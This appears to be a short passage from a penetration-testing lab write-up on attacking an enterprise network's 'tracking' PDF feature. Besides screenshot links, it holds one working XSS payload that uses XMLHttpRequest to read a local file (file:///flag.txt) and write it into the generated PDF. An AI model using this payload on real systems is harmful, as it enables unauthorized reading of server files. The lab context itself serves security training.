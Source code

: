 ![Firefox - Tracking PDF XSS Result](./assets/screenshots/attacking_enterprise_networks_external_testing_28.png)

```javascript
<script>x=new+XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///flag.txt");x.send();</script>
```

![Burp Suite - Tracking POST XSS Attempt Flag](./assets/screenshots/attacking_enterprise_networks_external_testing_29.png)

![Firefox - Tracking PDF XSS Result Flag](./assets/screenshots/attacking_enterprise_networks_external_testing_30.png)
